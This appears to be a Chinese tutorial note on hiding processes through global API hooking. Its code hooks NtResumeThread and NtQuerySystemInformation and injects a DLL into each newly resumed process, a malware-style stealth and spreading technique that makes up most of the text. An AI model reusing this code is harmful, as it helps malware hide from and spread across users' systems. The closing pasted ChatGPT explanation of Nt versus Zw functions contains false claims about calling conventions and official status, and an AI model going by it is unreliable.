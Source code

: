 # 记事本-NtResumeThread() 之 进程隐藏

木马不要去隐藏自己的进程

杀软的权限比较高

我们只能欺骗ring3的进程查看器

对于杀软来说,很难隐藏





之前那个进程隐藏用的是createProcess和NtQuerySystemInformation() 钩取explorer.exe

也提到过全局API钩取的概念,也提到过NtResumeThread()

这一次就简单实现一下,他的原理和之前是一样的,只不过它更加底层罢了

但是,也还是简答的说一下他的相关实现

其实,也没干什么

说一下dllmain函数

```jsx
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    switch (fdwReason)
    {

    case DLL_PROCESS_ATTACH:
        hook_by_code(szNtdll, szNtQuerySystemInformatio, g_OldAPI_1,my_NtQuerySystemInformation);
        hook_by_code(szNtdll, szNtResumeThread, g_OldAPI_2, my_NtResumeThread);

        break;
    case DLL_PROCESS_DETACH:
        unhook_by_code(szNtdll, szNtQuerySystemInformatio, g_OldAPI_1);
        unhook_by_code(szNtdll, szNtResumeThread, g_OldAPI_2);
  
        break;
    }
    return TRUE;
}
```

多了一个hook和unhook

具体的函数,看上去比较复杂

但是也还是没啥东西的

```c
NTSTATUS WINAPI my_NtResumeThread(HANDLE ThreadHandle, PULONG SuspendCount)
{
    NTSTATUS status = 0, statusThread;
    FARPROC pFunc = NULL, pFuncThread = NULL;
    DWORD dwPID = 0;
    static DWORD dwPrevPID = 0;
    THREAD_BASIC_INFORMATION tbi;
    HMODULE hMod = NULL;
    CHAR szModPath[MAX_PATH] = { 0, };
    HANDLE hProcess;

    hMod = GetModuleHandleA(szNtdll);
    if (hMod == NULL)
    {
        DebugLog("NewNtResumeThread() : GetModuleHandle() failed!!! [%d]\n", GetLastError());
        return NULL;
    }

    // call ntdll!ZwQueryInformationThread()
    pFuncThread = GetProcAddress(hMod, "ZwQueryInformationThread");//注意这个函数是Nt版本,同时他的名字是ZwQueryInformationThread,不是NtQuerySystemInformation
    DebugLog("Zw %p\n", pFuncThread);
    if (pFuncThread == NULL)
    {
        DebugLog("NewNtResumeThread() : GetProcAddress() failed!!! [%d]\n", GetLastError());
        return NULL;
    }

    statusThread = ((PFZWQUERYINFORMATIONTHREAD)pFuncThread)(ThreadHandle, 0, &tbi, sizeof(tbi), NULL);
    if (statusThread != 0)
    {
        DebugLog("NewNtResumeThread() : pFuncThread() failed!!! [%d]\n", GetLastError());
        return NULL;
    }

    dwPID = (DWORD)tbi.ClientId.UniqueProcess;//获取主线程dwPID

    //打开进程病注入
    if ((dwPID != GetCurrentProcessId()) && (dwPID != dwPrevPID))
    {
        DebugLog("NewNtResumeThread() => call InjectDll()\n");

        dwPrevPID = dwPID;

        // change privilege 如果权限已经够了,就不需要提权了
        //if (!SetPrivilege(SE_DEBUG_NAME, TRUE))
        //DebugLog("NewNtResumeThread() : SetPrivilege() failed!!!\n");

        // get injection dll path
        GetModuleFileNameA(GetModuleHandleA(STR_MODULE_NAME), szModPath, MAX_PATH);
        if (!(hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPID)))
        {
            DebugLog("OpenProcess failed");
            return FALSE;
        }
        if (!InjectDll_hook(hProcess, szModPath))
        {
            DebugLog("NewNtResumeThread() : InjectDll(%d) failed!!!\n", dwPID);
        }
    }

    // call ntdll!NtResumeThread() 脱钩
    if (!unhook_by_code(szNtdll, szNtResumeThread, g_OldAPI_2))
    {
        DebugLog("NewNtResumeThread() : unhook_by_code() failed!!!\n");
        return NULL;
    }

    pFunc = GetProcAddress(hMod, "NtResumeThread");
    if (pFunc == NULL)
    {
        DebugLog("NewNtResumeThread() : GetProcAddress() failed!!! [%d]\n",
            GetLastError());
        goto __NTRESUMETHREAD_END;
    }

    status = ((PFNtResumeThread)pFunc)(ThreadHandle, SuspendCount);//正常调用
    if (status != 0)
    {
        DebugLog("NewNtResumeThread() : pFunc() failed!!! [%d]\n", GetLastError());
        goto __NTRESUMETHREAD_END;
    }

__NTRESUMETHREAD_END:

    if (!hook_by_code(szNtdll, szNtResumeThread, g_OldAPI_2, (PROC)my_NtResumeThread))//挂钩
    {
        DebugLog("NewNtResumeThread() : hook_by_code() failed!!!\n");
    }

    DebugLog("NewNtResumeThread() : end!!!\n");

    return status;
}
```

首先是根据 `NTSTATUS WINAPI NtResumeThread(HANDLE ThreadHandle, PULONG SuspendCount)` 

的`HANDLE ThreadHandle` 来获取主线程所在进程的信息,然后对它注入

然后对 `NtResumeThread` 脱钩,然后调用它,然后挂钩

其中有个小小的疑惑:

他是如何成功调用 "ZwQueryInformationThread"的

于是问了chatgpt

事实上，**`NtQueryInformationThread`** 和 **`ZwQueryInformationThread`** 两者都是系统调用函数，并且它们都是可以在用户层调用的。这两个函数都用于在用户空间和内核空间之间进行通信，以获取线程信息。

**`NtQueryInformationThread`** 和 **`ZwQueryInformationThread`** 函数的区别在于它们的调用方式和参数传递方式，具体如下：

1. **调用方式**:
    - **`NtQueryInformationThread`**: 是用于调用内核模式下的系统调用的函数。在用户层，可以通过在 **`ntdll.dll`** 动态链接库中找到 **`NtQueryInformationThread`** 函数的地址，并通过函数指针或其他技术来调用它。由于这个函数并不是官方公开的API，因此调用它可能不稳定且存在潜在的兼容性问题。
    - **`ZwQueryInformationThread`**: 也是用于调用内核模式下的系统调用的函数。在用户层，可以通过调用 **`ntdll.dll`** 中的 **`ZwQueryInformationThread`** 函数来触发系统调用。这是官方提供的、稳定的系统调用接口。
2. **参数传递**:
    - **`NtQueryInformationThread`**: 参数传递是通过将参数放入通用寄存器中进行的，如 **`RAX`**, **`RCX`**, 等，然后通过软中断（例如 **`int 0x2E`**）来触发系统调用。
    - **`ZwQueryInformationThread`**: 参数传递是通过函数的传统方式，即在用户模式下使用栈来传递参数，并使用 **`syscall`** 指令来触发系统调用。

综上所述，你可以在用户层调用 **`ZwQueryInformationThread`** 函数，它是一个稳定且受支持的方法。虽然你也可以在用户层调用 **`NtQueryInformationThread`**，但不推荐这样做，因为它是一个未公开的API，可能在不同的Windows版本中发生变化，并且存在潜在的稳定性和兼容性问题